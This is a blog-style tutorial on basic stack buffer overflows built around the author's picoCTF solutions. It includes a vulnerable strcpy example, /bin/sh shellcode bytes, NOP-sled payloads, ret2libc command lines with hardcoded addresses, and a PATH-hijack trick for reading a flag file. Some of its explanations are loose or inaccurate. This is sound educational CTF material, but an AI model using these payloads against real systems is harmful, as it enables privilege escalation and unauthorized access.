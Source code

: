 ```yaml
---
layout: post
title:  "Buffer Overflows - The Basics"
date:   2013-05-06
---
```


Recently I competed in [picoCTF](https://picoctf.com/), a hacker CTF game, and thought I would share some of my solutions. The first of which, is how I did the buffer overflow(s). (for those that don't know, CTF consists of 'flags' which are special strings that you get by exploiting vulnerabilities in programs).

Lets start with what a basic vulnerable application would look like.
```c
     void function(char *str) {
       char buffer[16];
       strcpy(buffer,str);
     }
```
Now lets say we give that function a string which is longer than 16 characters. Instead of throwing an exception, it will happily write those bytes to the stack.

#### The Stack:
The stack is basically the program in memory (a&nbsp;continuous&nbsp;chunk). Here's how it looks (remember stacks are last in first out).
[ &nbsp; &nbsp; &nbsp;return address &nbsp; &nbsp; &nbsp; &nbsp; ] <-- ~~this is the address of the next funciton to call, we want to overwrite this~~
[ &nbsp; &nbsp; &nbsp; &nbsp; eip (address) &nbsp; &nbsp; &nbsp;&nbsp; ] <-- ~~this takes up memory~~&nbsp;we want to overwrite this
[ &nbsp; &nbsp; &nbsp; stack variable &nbsp; &nbsp; &nbsp; &nbsp; ] <-- this takes up memory
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;buffer[15] &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ] <-- this is the 16th character of our input string
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ... &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ]
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;buffer[0]&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- our input starts here

So the idea behind a buffer overflow, is to overflow the buffer:
(input: 'AAAA...AAAAEXECUTESHELLCODE')

[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; get shell &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- this is the secret sauce
[ &nbsp; &nbsp; &nbsp; &nbsp;0x41414141 &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- overwrite garbage
[ &nbsp; &nbsp; &nbsp;&nbsp;0x41414141&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- overwrite garbage
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;0x41414141&nbsp; &nbsp; &nbsp; &nbsp; ] <-- 4 letter 'A's
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ... &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;]
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;0x41414141&nbsp; &nbsp; &nbsp; &nbsp; ] <-- buffer starts here

Now, before we get to the secret sauce, lets first understand how were gonna write those 'A' to the buffer.
` ./buffer_overflow $(python -c 'print "A"*28')  `

I use python, but you can use other languages too.

Ok, so now we have a bunch of A's on the stack. But how do we know how many we need?

To be honest, I'm not super sure. I know that its a multiple of 4 plus the buffer size (in this case 16). You can guess and check, but for me its usually buffer size + 12 bytes (12 A's). Sometimes you don't know how large the buffer is (eg. no source code). In this case, just put in a lot of A's until your at the sweet spot between Segmentation Fault, and proper execution. (ps, this could be over 1000 so guess wisely).

Alright, now we have&nbsp;overflowed&nbsp;the buffer with A's , lets look at the secret sauce.
[shellcode](http://en.wikipedia.org/wiki/Shellcode)&nbsp;([examples](http://www.exploit-db.com/shellcode/)). For picoCTF, we were given shellcode, but that's not always the case.

Here is the shellcode given to us (in hex):
```
00000000 31 c0 f7 e9 50 68 2f 2f 73 68 68 2f 62 69 6e 89 |1...Ph//shh/bin.|
00000010 e3 50 68 2d 70 69 69 89 e6 50 56 53 89 e1 b0 0b |.Ph-pii..PVS....|
00000020 cd 80                       |..|
```

When this piece of code gets executed, we get a shell. We want a shell to spawn because usually the [SUID](http://en.wikipedia.org/wiki/Setuid)&nbsp;of the binary is set to a&nbsp;privileged&nbsp;user, which allows use to read flags from the disk.

The way you add this shellcode (below is a different shellcode) to your buffer overflow, is to add it to an environment variable:
```bash
export EXPLOIT=$(python -c 'print "\x90"*1000+"\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh"')
```

Notice the "\x90". This is a [NOP (no operation) sled](http://en.wikipedia.org/wiki/NOP_slide), which basically means that it gets skipped over as meaningless code (From what I understand, the NOP allows the memory address to be off by a bit and it will still work).

Then to find its memory address we have a small C program:
```
	 #include <stdio.h>
     #include <stdlib.h>
     int main(int argc, char **argv) {
       printf("\n%p\n\n", getenv("EXPLOIT"));
       return(0);
     }
```

If you're on a 64 bit machine it may come out as more than 4 bytes. This means you need to re-compile the C program with the '-m32' flag (makes it 32 bit). (gcc -m32 -o tester tester.c)

You should now have an address like this: `0xbffff688`

So now, instead of giving it shellcode directly, we can give the program the address of it in memory.

Addresses are represented in [little endian](http://en.wikipedia.org/wiki/Endianness)&nbsp;so we write them backwards. The code looks like this:
` ./buffer_overflow $(python -c 'print "A"*28+"\x88\xf6\xff\xbf")  `

Notice how it was reversed, in 1 byte chunks (2 digits). Also notice how python lets us write the arbitrary hex values using the escape sequence "\x00". (you can usually also just write the address a ton of times, eg:&nbsp;`"\x88\xf6\xff\xbf"*200`)

That pretty much covers the basics of buffer overflows, stay tuned for a ROP tutorial (Return Oriented Programming) which can also be used to solve buffer overflow problems.

#### SPOILER ALERT:
The solution to picoCTF overflow 3 (has elements of ROP):
`(overflow)` `(address of 'shell' function-found with gdb)`
`./buffer_overflow $(python -c 'print "A"*76   +  "\xf8\x85\x04\x08"')  `
    and overflow 4:
`(put shellcode on stack)`               `(filler)`  `(the pointer to shellcode - shown in stack trace)`
`./buffer_overflow_shellcode $(cat shellcode)$(python -c'print "BB"+"A"*40+"\x40\xd5\xff\xff"') `

(alternate solution if not given stack trace):
```
 export EXPLOIT=$(python -c "print '\x90'*1000")$(cat shellcode)
```
(run environment program above to get its address: 0xffffd433 - Assumes no [ASLR](http://en.wikipedia.org/wiki/Address_space_layout_randomization))
```
./buffer_overflow_shellcode $(python -c "print '\x33\xd4\xff\xff'*200")
```
and overflow 5 (non-executable memory):                                                   `(overflow)` `(<system>)`     `(called)` `('/bin/sh' from environment)`
```
./buffer_overflow_shellcode_hard $(python -c 'print "A"*1036+"\x50\x82\xe6\xf7"+"sh;#" +  "\x11\xd8\xff\xff"')
```
(Note, the address for '/bin/sh' from gdb was&nbsp;0xffffd80f and wasn't working, so I just played with the address (increased by 1, then 1 more) until it worked - note also that I used gdb instead of the normal dump program above, as the address was different. This is because the stack got modified slightly during execution (out of our control). The <system> comes from ROP (found with gdb), so stay tuned for more info on that).
    gdb looked like this:
```
     (gdb) break main
     (gdb) run
     (gdb) x/s *((char **)environ)
     0xffffd805:      "EXPLOIT=/bin/sh"
     (gdb) x/s 0xffffd80d
     0xffffd80d:      "/bin/sh"
```
#### Update:
Getting environment variables does not always work (ie. overflow 5) so I came up with an alternate solution, using PATH and a string from the binary. Here is what the process looks like:
```
	 mkdir cmd
     cd cmd
     echo "cat /problems/stack_overflow_5_0353c1a83cb2fa0d/key" > a
     chmod +x a
     export PATH=/home2/user1792/cmd:$PATH
     cd /problems/stack_overflow_5_0353c1a83cb2fa0d
     gdb buffer_overflow_shellcode_hard
     (gdb) break main
     (gdb) run
     (gdb) find &system,+999999,"a"
     >> 0xf7e9e6ab #this is the address we will use
     >> 0xf7f0fb8e <setpriority+14>
     >> (cont.)
```                                              `(fill)`    `(system)`          `(junk)`    `("a" address)`
```
./buffer_overflow_shellcode_hard $(python -c 'print "A"*1036+"\x50\x82\xe6\xf7"+"AAAA" +"\xab\xe6\xe9\xf7"')
```

Here are some good sources for more information on buffer overflows:
[http://insecure.org0xffffd7f0/stf/smashstack.html](http://insecure.org/stf/smashstack.html)
[http://security.stackexchange.com/questions/13194/finding-environment-variables-with-gdb-to-exploit-a-buffer-overflow](http://security.stackexchange.com/questions/13194/finding-environment-variables-with-gdb-to-exploit-a-buffer-overflow)
[http://www.lopisec.com/2011/12/smashthestack-io-level-5-writing-my.html](http://www.lopisec.com/2011/12/smashthestack-io-level-5-writing-my.html)
[http://raidersec.blogspot.com/2012/10/smash-stack-io-level-3-writeup.html](http://raidersec.blogspot.com/2012/10/smash-stack-io-level-3-writeup.html)
[http://key-basher.blogspot.com/2013/04/smash-stack-level-5.html](http://key-basher.blogspot.com/2013/04/smash-stack-level-5.html)
